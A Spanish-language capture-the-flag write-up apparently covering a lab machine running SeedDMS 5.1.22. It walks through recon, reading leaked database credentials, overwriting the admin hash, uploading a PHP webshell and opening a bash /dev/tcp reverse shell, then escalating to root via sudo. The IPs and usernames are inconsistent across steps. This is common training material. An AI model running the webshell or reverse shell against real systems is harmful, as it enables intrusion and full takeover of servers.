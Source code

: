 # Summary
- IP: 192.168.0.115
- Ports: 80,3306,33060
- OS: Linux (Ubuntu Focal)
- Services & Applications:
	-  80-> Apache httpd 2.4.41
	-  3306 -> MySQL 8.0.25-0ubuntu0.20.04.1
	-  33060 -> mysqlx?

# Recon

- Escaneo básico de puertos:

```
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.129.26 -oG allPorts
```


- Escaneo profundo de puertos encontrados:

```
$sudo nmap -p21,80,2222 -sCV 10.10.129.26 -oN targeted
```

- Escaneo de directorios con gobuster:

```
#gobuster dir -u 192.168.1.40 -w /home/dante/SecLists/Discovery/Web-Content/common.txt -t 200
```

- No encontramos ningún directorio interesante, así que procedemos a examinar la página web; dentro de la página web analizamos el código fuente, encontramos un recurso "main.js", lo analizamos para encontrar alguna posible fuga en el código; en una linea encontramos lo siguiente:

```
//make sure this js file is same as installed app on our server endpoint: /seeddms51x/seeddms-5.1.22/
```

- Accedemos al directorio mencionado en el anterior comentario y encontramos una página "SeedDMS" con un login, intentamos acceder con credenciales por defecto sin resultado.

- Hacemos una búsqueda en google para verificar si se trata de un programa opensource:

```
SeedDMS github
```

- Enumeramos los posibles directorios que contiene dicho programa, específicamente existe un directorio "/conf" en el cual hay un archivo ".htacces" el cual advierte la sanitización del archivo "/conf/settings.xml".

- Intentamos abrir este archivo "settings.xml" en caso de que no esté sanitizado y efectivamente tenemos acceso a este archivo, enumeramos información relevante.

- Encontramos credenciales de base de datos: user="seeddms" pass="seeddms", como el puerto 3306 está abierto, intentamos acceder con esta información:

```
#mysql -h 192.168.1.40 -useeddms -pseeddms
```

- Buscamos información sensible:

```
show databases;
use seeddms;
show tables
select * from users;
```

- Encontramos la credencial para el usuario "saket", intentamos logearnos en la página principal pero no funciona, guardamos esta información y seguimos buscando posibles contraseñas:

```
select * from tblUsers
```

- Encontramos al usuario "admin" con su respectiva contraseña hasheada; updateamos la contraseña a una que nosotros conozcamos, al tener 32 caracteres, podría tratarse de un hash MD5, así que creamos una:

```
echo -n "hola" l md5sum
```

- Updateamos la celda en la base de datos:

```
update tblUsers set pwd='4d186321c1a7f0f354b297e8914ab240' where login='admin';
```

- Ahora accedemos en la página principal de "SeedDMS" como el usuario "admin" y la contraseña que creamos.

- Buscamos vulnerabilidades para "SeedDMS" y encontramos un RCE, analizamos el exploit:

```
Step 1: Login to the application and under any folder add a document.
Step 2: Choose the document as a simple php backdoor file or any backdoor/webshell could be used.
Step 3: Now after uploading the file check the document id corresponding to the document.
Step 4: Now go to example.com/data/1048576/"document_id"/1.php?cmd=cat+/etc/passwd to get the command response in browser.
```


- Creamos un archivo php con una reverse shell y la subimos:

```
nano shell.php
```


```
<?php
echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

- Ahora vemos la id del archivo que acabamos de subir y accedemos mediante el directorio que nos indica el exploit, confirmando el RCE:

```
http://192.168.1.40/seeddms51x/data/1048576/7/1.php?cmd=whoami
```

- Creamos una reverse shell básica:

```
bash -c "bash -i >%26 /dev/tcp/192.168.1.31/443 0>%261"
```

- Hacemos tratamiento de TTY y habremos accedido como el usuario "www-data".


# ESCALANDO PRIVILEGIOS:


- Recordamos la credencial del usuario "soket" que habíamos encontrado anteriormente, la usamos para intentar pivotar de usuario y sí que funciona.

```
su saket
```

- Vemos permisos de sudoers ( sudo -l ) y encontramos que el usuario saket tiene permitido ejecutar como root cualquier binario:

```
User saket may run the following commands on ubuntu:
    (ALL : ALL) ALL
```

- Accedemos como superusuario con sudo y seremos root:

```
sudo su
```

